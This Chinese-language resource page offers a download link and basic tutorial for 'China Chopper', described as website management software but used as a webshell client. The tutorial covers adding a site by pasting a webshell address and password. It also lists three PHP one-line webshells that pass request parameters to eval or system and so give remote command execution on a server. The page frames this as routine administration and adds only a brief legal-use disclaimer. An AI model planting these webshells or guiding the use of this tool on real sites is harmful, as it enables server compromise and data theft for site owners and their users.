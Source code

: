 # 中国菜刀下载及基础使用教程

## 简介
本资源文件提供了“中国菜刀”工具的下载链接及基础使用教程。中国菜刀是一款专业的网站管理软件，支持PHP、ASP、ASP.NET、JSP等多种服务端脚本，功能强大且易于使用。

## 下载链接
请访问以下链接下载中国菜刀工具：
[下载链接]

## 基础使用教程
1. **添加站点**：
   - 在首页空白处右键，点击“添加”。
   - 复制网站shell地址后粘贴到此处，并填写webshell密码。

2. **配置数据库**：
   - 根据需要选择数据库类型并进行配置。

3. **选择模式**：
   - 选择添加的站点右键，选择所需的模式进行操作。

## 相关一句马
以下是一些常用的一句马代码：
- PHP: `<php eval($_REQUEST['key'])>`
- PHP: `<php system($_REQUEST['ab12'])>`
- PHP: `<php eval($_POST[123])>`

## 注意事项
- 请确保从官方渠道下载中国菜刀，避免使用非官方版本，以免存在安全隐患。
- 使用中国菜刀时，请遵守相关法律法规，切勿用于非法用途。

## 版权声明
本文为博主原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接和本声明。

## 下载链接

[中国菜刀下载及基础使用教程](https://pan.quark.cn/s/afc3fcca3334)